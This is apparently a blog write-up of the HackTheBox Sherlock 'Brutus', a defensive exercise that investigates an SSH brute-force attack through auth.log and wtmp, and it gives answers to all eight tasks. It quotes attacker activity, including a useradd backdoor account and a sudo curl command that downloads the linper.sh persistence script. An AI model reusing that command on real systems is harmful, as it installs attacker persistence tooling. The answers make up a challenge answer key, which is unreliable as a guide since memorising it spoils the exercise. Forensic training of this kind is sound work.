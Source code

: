 ```yaml
---
title: "Sherlock - Brutus - English"
summary: "Sherlock from HackTheBox about unauthorized login attempts on a Confluence server. The auth.log and wtmp files are provided for investigation."
date: "Jan 01 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- English
---
```




<SherlockBeginningTable  lang={LANG_EN} 
  data={[
    { content: `In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs.
    We'll explore a scenario where a Confluence server was brute-forced via its SSH service. 
    After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. 
    Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, 
    including aspects of privilege escalation, persistence, and even some visibility into command execution.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_EN} 
    task_number="1" 
    task_content="Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?" 
    hint_content="Searching for keywords associated with brute force attempts may help in identifying potential attacks." 
    answer="65.2.161.68"/>

- We can search for the keywords `Invalid user` to find out the attacker's IP with any of these commands:

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- The logs have this format:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- There are many failed login attempts from the IP 65.2.161.68 with user accounts suggesting elevated privileges (`admin`, `server_adm`, `svc_account` and `root`). That's the IP we are looking for.

---

<SherlockTask lang={LANG_EN} 
    task_number="2" 
    task_content="The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?" 
    hint_content="Look for keywords indicating successful login attempts to identify the compromised account." 
    answer="root"/>

- Taking a look to the `auth.log` file, we can see that access was gained with the user `root` from the IP 65.2.161.68, which is the attacker's IP as mentioned earlier.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- We can filter with the keywords `Accepted password`, though:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>


---

<SherlockTask lang={LANG_EN} 
    task_number="3" 
    task_content="Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?" 
    hint_content="It's important to note that the first successful login by the attacker was the result of an automated brute force attempt, and the session was 
    closed within the same second it was established. After obtaining the working credentials, the attacker manually logged in, and we need to identify that login. 
    Use the wtmp artifact to view the login time of the working session and correlate that with auth.log." 
    answer="2024-03-06 06:32:45"/>

- Since in `auth.log` the timestamp has this format `Month Day HH:mm:SS` and the requested format is `YYYY-MM-DD HH:mm:SS`, we need to search in the `wtmp` file.
- With this command, we can see all logins in that file:

<CodeBlock code={"utmpdump wtmp"}/>
    
- But we can filter by the username with which the attacker gained access, which in this case is what we are interested in:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_3.png"/>

- We can see that in the last line, the login from the IP 65.2.161.68 has a similar timestamp format to `YYYY-MM-DD HH:mm:SS`. There is our answer.

---

<SherlockTask lang={LANG_EN} 
    task_number="4" 
    task_content="SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?" 
    hint_content="A session number is assigned immediately after the password is accepted." 
    answer="37"/>

- Considering the previous timestamp, we can search in `auth.log` around that time.
- We search for that hour and those minutes (we could also search for the user `root`, though):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_4.png"/>

- We see that one second before (06:32:44), the number 37 is assigned to the `root` user's session.

---

<SherlockTask lang={LANG_EN} 
    task_number="5" 
    task_content="The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?" 
    hint_content="Auth.log also tracks changes related to users and groups on the server. Look for keywords indicating user additions or privilege assignments." 
    answer="cyberjunkie"/>

- Reviewing the `auth.log` file, we realize that after gaining access, the attacker creates a new user with the name `cyberjunkie`, through `useradd` command, in order to maintain persistent access to the system (creating a backdoor):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>
     
---

<SherlockTask lang={LANG_EN} 
    task_number="6" 
    task_content="What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?" 
    hint_content="If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic." 
    answer="T1136.001"/>

- To do this, we go to the URL https://attack.mitre.org and search in **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_EN} 
    task_number="7" 
    task_content="What time did the attacker's first SSH session end according to auth.log?"
    answer="2024-03-06 06:37:24"/>

- Knowing the SSH session number, we can filter by it as follows:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_7.png"/>

- The second line indicates the time when the session was closed, with the state `Removed session 37`.

---

<SherlockTask lang={LANG_EN} 
    task_number="8" 
    task_content="The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?" 
    hint_content="Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword 'COMMAND' to find commands executed using sudo."
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- The system needs to authenticate the account to grant administrative permissions for commands executed with `sudo`, which would be recorded in `auth.log`, as the hint states. We can filter by:
    
<CodeBlock code={"cath auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_8.png"/>   

- One of the lines shows us the `curl` command that the attacker executed and the script URL that he downloaded.

---

<SherlockFinalContent lang={LANG_EN}/>
